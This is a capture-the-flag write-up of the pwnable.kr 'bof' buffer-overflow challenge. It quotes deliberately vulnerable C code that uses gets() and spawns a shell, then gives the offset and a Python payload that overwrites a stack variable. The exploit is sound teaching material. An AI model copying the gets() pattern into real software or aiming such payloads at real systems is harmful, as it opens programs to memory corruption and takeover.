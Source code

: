 # pwnable.kr -- Toddler's Bottle -- bof

## 1. Challenge

```
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

## 2. Solution

As the challenge provides you source code, let's see it:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
  char overflowme[32];
  printf("overflow me : ");
  gets(overflowme);	// smash me!
  if(key == 0xcafebabe){
    system("/bin/sh");
  }
  else{
    printf("Nah..\n");
  }
}

int main(int argc, char* argv[]){
  func(0xdeadbeef);
  return 0;
}
```

You can see that `gets(overflowme);` does not restrict the length you input. It will keep reading and writing until you press `Enter` key.

So let's see the stack layout of the function `func` in IDA:

![stack_layout_of_func](stack_layout_of_func.png)

We can see that you can change the value of variable `key` if you input more than `0x2C + 0x4 + 0x4 = 0x34` bytes, so the payload should be:

```python
payload = 0x34 * 'a' + '\xbe\xba\xfe\xca'
```

Send it and get the flag.
